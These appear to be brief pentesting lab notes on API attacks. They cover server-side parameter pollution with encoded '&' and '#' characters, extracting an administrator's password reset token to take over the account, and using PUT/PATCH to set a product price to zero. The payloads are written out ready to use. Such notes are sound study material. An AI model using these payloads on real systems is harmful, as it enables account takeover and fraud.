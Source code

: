 [#](#) API

### Server-side parameter pullution

Other Parameters?

    username=administrator%26x=y

Truncate the request with enconded chars (%23 -> #) to help interpret the server-side request

    username=administrator%23AAAA
    -> Field not specified
    username=administrator%26field=y
    -> Invalid field.
    username=administrator%26field=§1§#  (intruder -> Server Side Variable Names)
    
    Original
    username=administrator
    ->  "result":"administrator@normal-user.net",
        "type":"email"
        
Parameter Swapping?

    /static/js/forgotPassword.js
    Search for params and URLs ("?", "href", "location", etc...)
    window.location.href = `/forgot-password?reset_token=${resetToken}`
    
    
    username=administrator%26field=reset_token
    secret_token_:)
    /forgot-password?reset_token=secret_token:)
    
Change Method (RESTful)

    GET /api/products/1/price
    "price":"$0.00"
    PUT /api/products/1/price
    PATCH /api/products/1/price
    {"price":"0"}

